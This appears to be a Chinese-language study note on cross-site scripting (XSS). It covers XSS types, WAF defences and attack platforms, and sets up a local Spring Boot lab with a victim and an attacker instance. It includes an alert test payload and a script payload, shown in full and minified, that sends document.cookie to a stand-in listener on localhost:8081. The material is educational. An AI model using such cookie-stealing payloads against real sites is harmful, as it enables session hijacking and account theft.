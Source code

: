 ### XSS

#### 概念
跨站脚本攻击：英文全称是 `Cross-site scripting`，本来缩写是`CSS`，但是为了和层叠样式表(Cascading Style Sheets)有所区别，所以在安全领域叫`XSS`。

`XSS`攻击，通常指黑客通过"HTML注入"篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。
在一开始，这种攻击的演示案例是跨域的，所以叫做“跨站脚本”，但是发展到今天，由于JavaScript的强大功能以及网站前端应用的复杂化，是否跨域已经不再重要。
但是由于历史原因，XSS这个名字却一直保留下来。

#### 类型
1. 反射型XSS
1. 存储型XSS
1. DOM Based XSS
1. 通用型XSS ???
1. 突变型XSS ???

#### 反射型XSS
简单地把用户输入的数据“反射”给浏览器。也就是说，攻击者必须以某种方式诱导用户访问一个精心设计的URL（恶意链接），才能实施攻击。
也叫做“非持久型XSS”(Non-persistent XSS)。

#### 防御手段
1. waf
2. 侵入性组件

#### XSS攻击平台
1. Attack API
1. BeEF
1. XSS-Proxy
1. 终极武器：XSS Worm（用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起 `XSS Worm` 攻击。如站内信，用户留言等。而相对的，如果一个页面只能由用户个人看到，如“个人资料设置”，因为缺乏用户之间的交互功能，所以即使存在XSS，也不能被用于`XSS W  orm`的传播）

#### 示例注意点
1. 模拟生成登录cookie
    * 已存在不生成
    * 设置过期时间
    * 只针对controller开出去的接口做拦截，静态资源的访问不进行拦截（配置目录需要具体，不能配置`/static/**`）
1. 示例攻击性脚本
    * 仅仅弹框型
        ```js
        <script>alert('it is a xss test!')</script>
        ```
    * 向攻击者服务器发送请求
        ```js
        // 简单示例：AJAX请求只能发给同源的网址
        // 实际情况，攻击者监听服务器与被攻击服务器不会是同一台机器，因此监听服务需要开启
        // 为方便模拟，就不分别构件不同的代码模块，直接springboot示例同时开启8080和8081，并行启动两个示例。8080被攻击者，8081攻击者。
        <script>
         $.ajax({
            url: "http://localhost:8081/listener/log",
            type: "POST",
            dataType: "json",
            data: JSON.stringify({data: document.cookie}),
            processData: false,
            contentType: "application/json",
            success: function(arg) {
                console.log(arg);
                console.log("监听到数据");
            }
        });
        </script>
      
        压缩后的脚本：
        <script>$.ajax({url:"http://localhost:8081/listener/log",type:"POST",dataType:"json",data:JSON.stringify({data:document.cookie}),processData:false,contentType:"application/json",success:function(arg){console.log(arg);console.log("监听到数据");}});</script>
        ```

#### 参考
1. 《白帽子讲Web安全》
1. [这一次，彻底理解XSS攻击](https://juejin.cn/post/6912030758404259854)
1. [关于XSS](https://juejin.cn/post/6844903926500704263)